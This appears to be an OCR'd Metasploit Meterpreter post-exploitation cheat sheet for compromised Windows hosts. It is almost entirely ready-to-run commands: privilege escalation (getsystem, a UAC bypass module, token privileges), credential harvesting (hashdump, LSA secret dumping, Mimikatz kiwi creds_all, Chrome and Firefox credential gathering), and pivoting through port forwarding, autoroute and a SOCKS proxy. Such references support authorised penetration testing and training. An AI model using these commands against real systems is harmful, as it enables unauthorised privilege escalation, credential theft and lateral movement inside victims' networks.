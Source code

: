 #### Privilege Escalation

```bash
# Attempt automatic privilege escalation
meterpreter > getsystem

# Show available techniques if getsystem fails
meterpreter > getsystem -t 0

# Bypass UAC (User Account Control)
meterpreter > run post/windows/escalate/bypassuac

# Show current privileges
meterpreter > getprivs

# Enable a specific privilege
meterpreter > enable_token_privileges SeDebugPrivilege
```

#### Credential Harvesting

```bash
# Dump password hashes
meterpreter > hashdump

# Dump lsa secrets
meterpreter > lsa_dump_secrets

# Access Windows Credentials Manager
meterpreter > run post/windows/gather/credentials/credential_collector

# Mimikatz integration
meterpreter > load kiwi
meterpreter > creds_all

# Extract browser credentials
meterpreter > run post/windows/gather/enum_chrome
meterpreter > run post/windows/gather/enum_firefox
```

#### Network Operations

```bash
# View routing table
meterpreter > route

# Port forwarding
meterpreter > portfwd add -l 8080 -p 80 -r 10.0.0.1

# Proxy traffic through the compromised host
meterpreter > run autoroute -s 10.0.0.0/24

# Set up a SOCKS proxy
meterpreter > run autoroute -s 10.0.0.0/24
meterpreter > background
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > run -j
```
